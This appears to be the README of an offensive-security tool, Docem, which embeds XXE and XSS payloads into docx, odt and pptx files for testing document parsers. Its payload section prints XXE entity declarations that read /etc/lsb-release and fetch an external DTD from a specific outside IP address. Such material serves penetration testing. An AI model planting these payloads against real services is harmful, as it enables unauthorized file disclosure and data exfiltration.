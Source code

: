 
```
_|_|_|                                                  
_|    _|    _|_|      _|_|_|    _|_|    _|_|_|  _|_|    
_|    _|  _|    _|  _|        _|_|_|_|  _|    _|    _|  
_|    _|  _|    _|  _|        _|        _|    _|    _|  
_|_|_|      _|_|      _|_|_|    _|_|_|  _|    _|    _|
```


Uility to embed XXE and XSS payloads in docx,odt,pptx,etc - any documents that is a zip archive with bunch of xml files inside

# Tool

## Install 

```bash
pip3 install -r requirements.txt
```

## Usage Docem

General 

```
python3 docem.py --help
```

- required args
	- `-s` - path to a sample file
	- `-pm` - payload mode
		- `xss` - XSS - Cross Site Scripting 
		- `xxe` - XXE - External XML Entity 
- `-pm` - payload type
	- `per_document` - for every payload, embed payload in all places in all files and create new doc
	- `per_file` - for every payload, for every file inside a docuement, for all places inside file embed payload and create new doc
	- `per_place` - for every payload, for every place in every file, embed payload and create new doc
- `-pf` - payload file. Path to a file with payloads
- `-kt` - do not delete temp folders in tmp 
- `-h` - print help

Example 
```bash
./docem.py -s samples/xss_sample_0.odt -pm xss -pf payloads/xss_tiny.txt -pm per_place
./docem.py -s samples/xxe/sample_oxml_xxe_mod1.docx -pm xxe -pf payloads/xxe_special_2.txt -kt -pt per_place
```

# ToDo

- Rewrite document_xss, cause it's terrible
	- [x] Stage 0. Working with template
		- [x] Prepare paths to all files in unpacked doc 
		- [x] First we find all files inside unpacked folder 
		- [x] Then we find all magic symbols 
	- [x] Stage 1. Combie two tools in one
- [x] Read file with payloads
- [ ] Add flag to specify custom url to use in XXE
- [ ] Add flag to specify custom url to use in XSS
- [ ] Add ab

## Payloads

### XXE Payloads

**! Change IP/Domain address**

#### Internal XXE with file


```xml
<!DOCTYPE foo [<!ENTITY xxe_int_file SYSTEM "file:///etc/lsb-release">]>
```


`&xxe_int_file` - xxe parametr inside xml text

#### External XXE with file

```xml
<!DOCTYPE foo [<!ENTITY xxe_ext_file SYSTEM "http://138.197.217.227:5005/a.dtd/">]>
```


`&xxe_ext_file` - xxe parametr inside xml text

#### Internal paramter XXE with string

```
<!DOCTYPE foo [<!ENTITY % paramEntity "<!ENTITY xxe_param_string 'bar'>"> %paramEntity;>]
```


`&xxe_param_string` - xxe parametr inside xml text

